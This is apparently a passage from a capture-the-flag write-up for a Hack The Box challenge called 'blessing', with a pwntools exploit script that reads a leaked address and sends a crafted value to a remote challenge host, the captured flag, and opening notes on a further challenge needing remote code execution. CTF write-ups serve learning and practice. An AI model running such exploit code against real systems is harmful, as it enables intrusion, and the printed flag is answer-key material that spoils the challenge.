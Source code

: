 ### Solver :

```python
from pwn import *
from time import sleep
context.arch = 'amd64'

def debug():
        if local<2:
                gdb.attach(p,'''
                        b* main+273
                        ''')
###############   files setup   ###############
local=len(sys.argv)
exe=ELF("./blessing")
libc=ELF("./glibc/libc.so.6")
nc="nc 94.237.60.63 53601"
port=int(nc.split(" ")[2])
host=nc.split(" ")[1]

############### remote or local ###############
if local>1:
        p=remote(host,port)
else:
        p=process([exe.path])

############### helper functions ##############
def send():
        pass

############### main exploit    ###############
p.recvuntil("Please accept this: ")
leak=int(p.recv(14),16)
log.info(hex(leak))
debug()
p.sendline(str(leak+1))
p.interactive()
```

_HTB{3v3ryth1ng_l00k5_345y_w1th_l34k5_c82e0654d799c3117ef943b6503489b3}_

---

# Crossbow

### notes :

- no pie
- we have gadgets
- compiled statically
- we need rce
